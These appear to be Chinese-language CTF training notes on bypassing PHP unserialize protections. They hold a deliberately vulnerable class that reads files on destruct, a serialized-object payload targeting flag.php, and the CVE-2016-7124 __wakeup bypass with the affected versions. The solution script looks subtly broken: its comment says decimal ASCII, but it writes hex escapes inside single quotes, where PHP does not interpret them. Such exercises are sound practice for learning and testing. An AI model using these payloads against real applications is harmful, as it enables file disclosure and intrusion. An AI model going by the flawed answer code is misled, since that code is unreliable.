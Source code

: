 



## 反序列化绕过训练

### 1、滤过flag.php

```php
<?php 
class BUU {
    public $file = "index.php";
    public function __destruct() {
        if (isset($this->file) && !stripos('flag', $this->file))  {
            highlight_file($this->file);
        }
    }
}

if (isset($_GET['ser'])) {
    unserialize($_GET['ser']);
} else {
    $o = new BUU;
}
?>
```



答案

```php
<?php
    class BUU{
    public $file = "index.php";
}
	$obj = new BUU;
	$obj->file='flag.php';
// 绕过字符转十进制的ASCII码
	$obj->file='\66\6c\61\67\2e\70\68\70';
	echo serialize($obj);
?>
```



### 2、绕过__wakeup()

**CVE-2016-7124**: 当成员属性数目大于实际数目时可绕过`wakeup`方法的执行

PHP5: < 5.6.25
PHP7: < 7.0.10

如

```php
O:3:"BUU":1:{s:4:"file";s:8:"flag.php";}

// 改为

O:3:"BUU":2:{s:4:"file";s:8:"flag.php";}
```
